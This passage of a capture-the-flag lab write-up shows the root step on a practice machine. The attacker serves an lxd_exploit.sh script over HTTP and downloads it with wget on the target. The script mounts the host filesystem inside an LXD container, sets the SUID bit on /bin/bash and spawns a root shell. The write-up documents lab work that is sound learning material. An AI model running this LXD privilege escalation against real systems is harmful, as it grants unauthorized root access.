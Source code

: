 I will fix the script and remove the command that is creating the permissions conflict, but I will also take the opportunity to convert the `lxd_exploit.sh` script to unix (something that **S4vitar** also recommends). I transfer again the modified script to the victim machine and I manage to run it successfully, I access from the container to the **/bin** directory and I grant **SUID** permissions to the `bash`, I exit the container and I can spawn a `bash` according to the owner's permissions (`root`) and again I manage to rooted the box.

> **Attacker Machine**:

```bash
dos2unix lxd_exploit.sh
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget 10.10.14.15/lxd_exploit.sh
chmod +x lxd_exploit.sh

./lxd_exploit.sh alpine-v3.19-x86_64-20240102_1831.tar.gz

# Container
cd /mnt/
cd ./root
cd /bin

ls -l ./bash
chmod u+s bash

exit

# Host
ls -l /bin/bash

bash -p
```

<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_57.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_58.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_59.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_60.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
